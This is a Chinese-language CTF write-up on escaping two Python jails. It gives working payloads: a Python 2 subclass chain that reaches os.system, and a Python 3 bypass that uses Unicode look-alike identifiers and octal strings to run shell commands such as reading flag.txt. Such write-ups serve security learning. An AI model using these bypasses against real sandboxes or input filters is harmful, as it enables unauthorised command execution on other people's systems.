> **Tips:** 2021年写

## Background

打国外的ctf的时候认识了个师傅，他给我发了两个python题目，问我有没有什么想法，研究了一下

## Challenge 1 Python2

```python
from __future__ import print_function
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]
while 1:
    print(">>>", end=' ')
    data = raw_input()
    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

这题是一个常见的沙盒逃逸，删除掉了bultins里面的函数，那我们就直接换一个常见的链即可 ,然后对于os 和system用简单的字符串拼接就可以

最终payload:`().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')`



这题是个很简单也很基础的沙盒逃逸,但是我们注意到这是py2的沙盒逃逸，那py3的沙盒逃逸题是否有什么不一样的方法

## Challenge 2 Py 3

```python
#!/usr/bin/env python3

import string

print("Welcome to my pyjail! pls dont escape")

while True:
  inp = input(">>> ")
  for n in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz":
    if n in inp:
      print("no u")
      exit()
  exec(inp)
```

阅读源码，发现他ban掉了所有英文字母，我首先就想到是否可以通过一些进制转换的方式，然后和一位朋友试了一下，将

`_import__('os').system('ls')`

尝试转换八进制，然后在python3的环境里面执行发现是可以的



但是我们在题目里是并不可以执行的



说明我们的import导包好像并没成功

Os 和ls这种字符串八进制应该没什么问题的

问题只是如何能够通过某种方法让我们导入这个包 我搜索了python官方的文档关于编码，以及python2 和 python3在编码方面的差异 让我发现了这个



在python3中支持 Non-ASCII Identifies 并且



所有都会被转换成 unicode 的NFKC 也就是标准模式

所以是不是我们以前ctf存在的什么unicode欺骗在这里也可以用到呢？

我在stackoverflow搜索了更多关于Non-ASCII Identifies 的帖子

发现个有趣的demo





这里面的第一个是函数的f 在python3环境里我们打印f 也可以执行



我看到这个函数f可以执行我也想到了 我们可以用斜体或者花体各种各样的与标准字母相像的来进行导包操作

我搜索了unicode字符大全，发现了很多我提到的字符



我们构造import 和system 将需要的字符串os 和open flag.txt用八进制表示

最终payload:`__𝘪𝘮𝘱𝘰𝘳𝘵__("\157\163").𝘴𝘺𝘴𝘵𝘦𝘮("\143\141\164\040\146\154\141\147\056\164\170\164")`



可以看到成功get flag

得到这个神奇的方法后，我在想 ，以前题目出过不少python3的沙盒逃逸题目，并且黑名单了一些包名，我们是不是可以直接通过这个方法直接bypass掉

我在ctftime搜到了一个题目

题目来源于(N-CTF 2019的python_jail）



发现用我的payload可以直接得到flag



## 后记

我通过不断搜索发现，不只python3有这个机制，rust居然也存在



各位师傅们可以更深入的了解下

## 参考文章

- [unicode字符大全](http://www.52unicode.com/mathematical-alphanumeric-symbols-zifu)
- [PEP 3131](https://www.python.org/dev/peps/pep-3131/)
- [Rust Issue #28979](https://github.com/rust-lang/rust/issues/28979)
- [StackOverflow: Unicode Identifiers](https://stackoverflow.com/questions/62256014/does-python-forbid-two-similarly-looking-unicode-identifiers)
- [CTFTime Writeup](https://ctftime.org/writeup/17085)
